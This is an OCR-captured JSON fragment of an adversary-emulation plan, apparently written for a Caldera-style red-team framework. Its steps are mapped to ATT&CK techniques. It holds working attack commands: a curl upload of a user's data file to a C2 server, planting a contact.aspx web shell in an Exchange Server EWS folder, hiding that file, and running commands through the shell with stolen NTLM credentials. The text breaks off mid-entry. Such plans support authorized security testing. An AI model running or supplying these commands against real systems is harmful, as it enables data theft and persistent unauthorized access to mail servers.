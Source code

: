 ```json
      "ability_id": "021245dd-c0be-4900-bd6c-1c680f00a237",
      "platform": "windows",
      "commands": {
        "cmd": "curl -F \"data=@C:\\Users\\#{initial.target.user}\\AppData\\Roaming\\fsociety.dat\" --header \"X-Request-ID: #{initial.target.user}-#{paw}\" #{server}/file/upload\n"
      },
      "privilege": "Unknown",
      "tactic": "exfiltration",
      "technique": "Exfiltration Over C2 Channel",
      "attack_id": "T1041"
    },
    {
      "ability_id": "2f3be960-5c00-4f03-a9c2-da09c31d38d9",
      "platform": "windows",
      "commands": {
        "cmd": "copy  C:\\Users\\#{initial.target.user}\\AppData\\Local\\SystemFailureReporter\\contact.aspx C:\\Users\\Public\\contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "7aaecfb7-a1eb-477c-8d53-ab3009389623",
      "platform": "windows",
      "commands": {
        "cmd": "copy C:\\Users\\Public\\contact.aspx \"\\\\#{second.target.ip}\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\ClientAccess\\exchweb\\ews\\\"\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Server Software Component: Web Shell",
      "attack_id": "T1505.003"
    },
    {
      "ability_id": "5f7dc4b3-1287-4a25-b0b0-b6e73756cc11",
      "platform": "windows",
      "commands": {
        "cmd": "attrib +h \"\\\\#{second.target.ip}\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\ClientAccess\\exchweb\\ews\\contact.aspx\""
      },
      "privilege": "Unknown",
      "tactic": "defense-evasion",
      "technique": "Hide Artifacts: Hidden Files & Directories",
      "attack_id": "T1082"
    },
    {
      "ability_id": "87d3322b-a435-47b5-9f97-a8db4f86dad5",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST --data \"pro=cmd.exe\" --data \"cmd=whoami\" https://#{second.target.ip}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Owner/User Discovery",
      "attack_id": "T1033"
    },
    {
      "ability_id": "48927544-5a18-11ed-9b6a-0242ac120002",
      "platform": "linux",
```